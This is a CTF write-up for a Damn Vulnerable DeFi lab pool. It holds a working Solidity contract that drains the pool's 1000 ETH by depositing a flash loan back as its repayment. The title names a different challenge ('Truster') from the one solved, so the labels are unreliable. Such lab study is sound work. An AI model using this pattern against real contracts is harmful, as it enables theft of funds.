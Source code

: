 # Truster CTF Writeup

## Challenge Description
A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flashloans using the deposited ETH to promote their system.

Yoy start with 1 ETH in balance. Pass the challenge by rescuing all ETH from the pool and depositing it in the designated recovery account.



## The Exploit Strategy
There is a contract called SideEntranceLenderPool.sol. in SideEntranceLenderPool.sol there is a vuln in flashloan function ,the function is not checking whether flashloan repayment was transfered or deposited. 

The attack strategy revolves around getting flash on maximum eth in and depositing same eth in pool via execute function  and after the flashlon we can transfer to recovery address.


## Solution
```solidity
contract Attack {
    address recovery;
    SideEntranceLenderPool public pool;

    constructor(SideEntranceLenderPool _challenge, address _recovery) {
        pool = _challenge;
        recovery = _recovery;
    }

    function attack() public {
        pool.flashLoan(1000e18);
        pool.withdraw();
        (bool result, ) = payable(recovery).call{value: 1000e18}("");
        require(result, "Transfer failed");
    }

    function execute() external payable {
        pool.deposit{value:1000e18 }();
    }
    receive() external payable {}
}
```

## References
- [Solution Link](https://docs.soliditylang.org/)
- [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/)
